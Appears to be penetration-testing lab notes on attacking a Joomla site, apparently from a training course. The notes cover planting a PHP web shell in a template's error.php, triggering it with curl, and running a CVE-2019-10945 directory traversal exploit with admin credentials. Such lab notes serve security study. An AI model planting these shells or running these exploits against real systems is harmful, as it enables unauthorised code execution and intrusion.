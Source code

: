 ## Abusing Built-In Functionality

1. Visit http://app.inlanefreight.local/administrator
2. Login with credentials
3. Configuration > Templates
4. Select template name (protostart)

**Note
If you receive an error stating "An error has occurred. Call to a member function format() on null" after logging in, navigate to "http://dev.inlanefreight.local/administrator/index.php?option=com_plugins" and disable the "Quick Icon - PHP Version Check" plugin. This will allow the control panel to display properly.

5. Create PHP one-liner to gain RCE in error.php
```
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
```
- Best practice is to password protect, delete shell when done, and even restrict shell down to one IP

6. Click Save & Close and then curl for webshell
```
curl -s http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id
```


## Leveraging Known Vulnerabilities

**CVE-2019-10945
https://www.exploit-db.com/exploits/46710
https://github.com/dpgg101/CVE-2019-10945
```
python2.7 joomla_dir_trav.py --url "http://dev.inlanefreight.local/administrator/" --username admin --password admin --dir /
```
